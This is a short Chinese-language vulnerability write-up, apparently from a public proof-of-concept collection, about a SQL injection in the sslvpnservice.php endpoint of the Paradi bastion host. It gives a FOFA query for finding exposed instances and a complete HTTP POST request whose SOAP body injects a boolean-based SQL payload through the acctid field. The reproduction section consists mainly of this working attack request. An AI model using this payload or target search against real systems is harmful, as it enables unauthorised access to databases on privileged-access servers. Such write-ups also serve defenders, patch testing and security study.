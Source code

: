 # 帕拉迪堡垒机sslvpnservice.php存在SQL注入漏洞

# 一、漏洞简介
帕拉迪堡垒机支持移动管理和运维BYOD。移动管理和运维逐渐成为刚需，通过专用App从管理者和运维者角度进行多方位管理和操作。对服务器和网络中的各种帐号都能一键收集，对其状态一目了然，并做到最全单点登录。可编程环境通道。可进行自动化程序穿透，通过API接口，让运维自动化不再是法外之地，整个自动化过程可管理可审计，帕拉迪堡垒机sslvpnservice.php存在SQL注入漏洞

# 二、影响版本
帕拉迪堡垒机

# 三、资产测绘
+ fofa `app="帕拉迪Core4A-UTM"`
+ 特征

![1732591708185-7197ed3c-426d-406d-87bc-e274f1e91112.png](./img/dMM0XuD_mFjW1yLK/1732591708185-7197ed3c-426d-406d-87bc-e274f1e91112-569324.png)

# 四 、漏洞复现
```java
POST /sslvpnservice.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML,
like Gecko) Chrome/89.0.4389.90 Safari/537.36
Connection: close
Cookie: PHPSESSID=8fdj8pske96v2qdg13g36u8872; think_language=zh-cn
Content-Type: text/xml
Content-Length: 580

<?xml version="1.0" encoding="ISO-8859-1"?>
<SOAP-ENV:Envelope SOAPENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAPENV="http://schemas.xmlsoap.org/soap/envelope/"
xmlns:xsd="http://www.w3.org/2001/XMLSchema"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAPENC="http://schemas.xmlsoap.org/soap/encoding/">
<SOAP-ENV:Body>
<getAccountDetail>
<data>
{"token":"4e28b56969e59a18d72d0050a47f812a","user":"superman","acctid":"-1' or
1=if(1=1,1,2) limit 0,1 -- a","index":"1"}</data>
</getAccountDetail>
</SOAP-ENV:Body></SOAP-ENV:Envelope>
```



> 更新: 2024-11-27 10:04:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/yxne8q3lvcvl18bl>